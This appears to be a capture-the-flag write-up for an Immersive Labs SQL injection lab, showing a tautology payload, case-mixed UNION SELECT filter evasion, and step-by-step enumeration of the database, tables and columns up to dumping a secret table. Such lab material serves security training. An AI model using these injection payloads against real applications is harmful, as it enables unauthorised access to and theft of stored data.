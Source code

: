 ```yaml
---
date: 2025-02-05
categories: [CTF, ImmersiveLabs]
title: "IML - SQLi Basics - Demonstrate your skills"
tags: ['rce', 'sql', 'sqli', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "SQLi Basics - Demonstrate you - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQLi Basics - Demonstrate your skills

- username = vulnerable parameter

![image1](../resources/8688020e25a14c42a19c8930ea91d51a.png)

- Cannot use union select because of filters (need to use filter evasion)


![image2](../resources/e82a946f4e574b8bb3453563a3725dd7.png)

- Not breaking with ' or "

- Try using 'or 1=1 -- -


![image3](../resources/869510fc01e94129ab9e28345d7203d4.png)

That worked

- I tried putting too MANY union select statements in, to start with, but the website doesn't break.
(As we found out with trying the ' and ")

- But we know that the search field only displays ONE column output.
So the correct SQLi statement is using:

```bash
'unioN SelecT 1 -- -

```

![image4](../resources/00a91d979e544379b9047796e77ee75b.png)

- Now just replace the **1** with values ie.

```bash
'unioN SelecT database() -- -

```

![image5](../resources/1a7ef064182441c089716f08b1d252a1.png)

```bash
'unioN SelecT version() -- -

```

![image6](../resources/be7a80ac98bd40c384e9c91aaf6d290f.png)

```bash
'unioN SelecT group_concat(table_name) from information_schema.tables where table_schema="user_db" -- -

```

![image7](../resources/41d9fa780c4a48e488086829b2f3a39e.png)

```bash
'unioN SelecT group_concat(column_name) from information_schema.columns where table_name="secret_table" -- -

```

![image8](../resources/18e3539342ad4375a1b85f0da831ba21.png)

```bash
'unioN SelecT group_concat(name,0x2b,value) from secret_table -- -

```
**0x2b is a delimiter(+)**


![image9](../resources/14b91aa84bb64b70ac202606038c4c36.png)
